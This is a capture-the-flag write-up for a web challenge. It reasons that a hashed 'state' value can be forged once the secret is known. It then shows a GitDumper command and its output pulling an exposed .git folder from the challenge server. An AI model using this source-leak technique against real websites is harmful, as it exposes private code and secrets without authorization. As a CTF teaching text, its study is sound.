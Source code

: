 
# Solution
Ideally, the hash value is used as a *digital signature* to ensure integrity on the "*state*" set by the web application, so that no one can modify the content of "state", without invalidating the signature. In fact, the PHP code in the *buy.php* page will probably do an initial check to validate the signature of the current "*state*" that is extracted from the HTTP POST request, to verify that the attacker has not modified it, for example by entering "13 | 13". `This means that, most likely, the hash value is generated by concatenating the string of the "state" generating by web application with a secret value and everything is then passed in input to a hash function (ex. MD5, SHA-1 etc.).`

So the idea is to get the `secret value` and `the hash function used (probably MD5)`, in order to correctly sign the "state": "13 | 13" and get the flag. Surely to achieve this, it would be advisable to leak the source codes of the PHP pages involved, especially */api/buy.php*.
Fortunately, the *web server (nginx)* allows us to access the contents of the hidden `.git folder`("*The .git folder contains all the information that is necessary for your project in version control and all the information about commits, remote repository address, etc. All of them are present in this folder. It also contains a log that stores your commit history so that you can roll back to history.*").
Using a *Git Dumper* (https://github.com/internetwache/GitTools/tree/master/Dumper), you can download the contents of the entire *.git folder* locally:
```console
matt@grol:~$ ./gitdumper.sh http://challs.xmas.htsp.ro:3003/.git/ /root/XMAS2020/cat_clicker
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /root/XMAS2020/cat_clicker/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/60/0c2781d8b6ebde35aba651804b3aab89e87b45
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/19/96c117c1611297c70e468db79da3818272afe4
[+] Downloaded: objects/89/8ff69d8da0fa7c500eca4881e25065000d7972
[+] Downloaded: objects/52/06047e0d1027bd6f5e51d5631c663ac0de5a2d
[+] Downloaded: objects/94/d84d8cb2cc7f469749224e7200f6358bcb4a25
[+] Downloaded: objects/3b/289292b5410ed174dd270e9a370d97777a6911
[+] Downloaded: objects/8b/67bc52ab15147566c9b2b4ea5262c107d3b9a8
[+] Downloaded: objects/92/75ee80bbdc458c2e8c587a9d66ee54dfb11ad1
[+] Downloaded: objects/55/293a2bfc92e2e0edd4a80e8ba6e45933954243
[+] Downloaded: objects/c1/9c87f22d3228559c44c9ccbb451c799d50609d
```